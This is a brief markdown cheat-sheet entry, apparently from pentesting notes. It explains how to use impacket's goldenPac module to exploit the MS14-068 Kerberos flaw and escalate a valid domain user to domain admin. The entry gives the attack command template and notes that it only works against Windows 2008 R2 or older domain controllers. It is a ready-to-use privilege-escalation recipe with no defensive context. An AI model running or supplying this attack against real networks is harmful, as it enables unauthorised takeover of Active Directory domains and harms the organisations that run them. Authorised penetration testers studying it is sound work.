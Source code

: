 ## Use this impacket module to escalate privileges to domain admin via a valid domain account username and password abusing the MS14-068 exploit.

### Command:

#### 1) impacket-goldenPac DOMAIN.LOCAL/USERNAME@FQDN.LOCAL then enter password for user.

## THIS TECHNIQUE CAN ONLY BE USED AGAINST DOMAIN CONTROLLERS RUNNING WINDOWS 2008 (R2) OR EARLIER!!!
